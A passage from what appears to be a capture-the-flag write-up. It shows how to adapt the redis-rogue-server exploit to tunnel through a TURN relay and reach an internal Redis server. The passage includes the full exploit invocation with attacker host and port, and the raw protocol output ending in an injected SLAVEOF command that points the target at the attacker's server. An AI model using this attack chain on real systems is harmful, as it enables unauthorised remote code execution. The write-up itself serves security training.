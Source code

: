Next we'll need to modify the rogue server code to utilize the data socket we created in our previous script, since it's normally
setup to just directly connect to the target server.  To achieve this, we'll copy and paste in our code, and then modify the
initializer for the `Remote` server class in `redis-rogue-server.py`.  We'll also need to modify some of the `CONFIG SET` commands
that determine the payload location, as it's likely that `/app`, where the default database is, is not write-able.  You might
also have to make some tweaks to the handling of addresses and ports depending on if your attack machine is behind a NAT.

### Running the Exploit

Assuming everything has gone to plan, we should now be able to run the exploit.  Lets give it a try.

```python
╭─zoey@virtual-parrot ~/sec/csaw/webrtc/redis-rogue-server ‹master*› 
╰─$ ./redis-rogue-server.py --rhost redis-via-turn --rport 6379 --lhost 3.14.182.203 --lport 15240
TARGET redis-via-turn:6379
SERVER 3.14.182.203:15240
generated txn id b'254c37dcf8487fa530d69a26'
Raw Allocation Request Response b'\x01\x03\x00(!\x12\xa4B%L7\xdc\xf8H\x7f\xa50\xd6\x9a&\x00\x16\x00\x08\x00\x01\x9e\xb5\x8d\x03\xa4A\x00 \x00\x08\x00\x01\x8c\x08\xa9\n\xf3$\x00\r\x00\x04\x00\x00\x0e\x10\x80"\x00\x04None'
Message Type b'\x01\x03'
Length 40
Cookie b'2112a442'
txn ID b'254c37dcf8487fa530d69a26'
attribute type XOR-RELAYED-ADDRESS
port 49063
ip 172.17.0.3
value b'00019eb58d03a441'
attibute type XOR-MAPPED-ADDRESS
port 44314
ip 136.24.87.102
value b'00018c08a90af324'
attribute type LIFETIME
value 3600
attribute type SOFTWARE
value None

generated txn id b'72a9a2dc5278c017bf901310'
Raw Connect Request Response b'\x01\n\x00\x08!\x12\xa4Br\xa9\xa2\xdcRx\xc0\x17\xbf\x90\x13\x10\x00*\x00\x04C\xef\xd2\x0b'
Message Type b'\x01\n'
Length 8
Cookie b'2112a442'
txn ID b'72a9a2dc5278c017bf901310'
attribute type CONNECTION_ID
value b'C\xef\xd2\x0b'

generated txn id b'9aa38664daa8dae52547a56c'
Raw ConnectionBind Request Response b'\x01\x0b\x00\x08!\x12\xa4B\x9a\xa3\x86d\xda\xa8\xda\xe5%G\xa5l\x80"\x00\x04None'
Message Type b'\x01\x0b'
Length 8
Cookie b'2112a442'
txn ID b'9aa38664daa8dae52547a56c'
attribute type SOFTWARE
value None

[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$12\r\n3.14.182.203\r\n$5\r\n15240\r\n'
[->] b'+OK\r\n'
```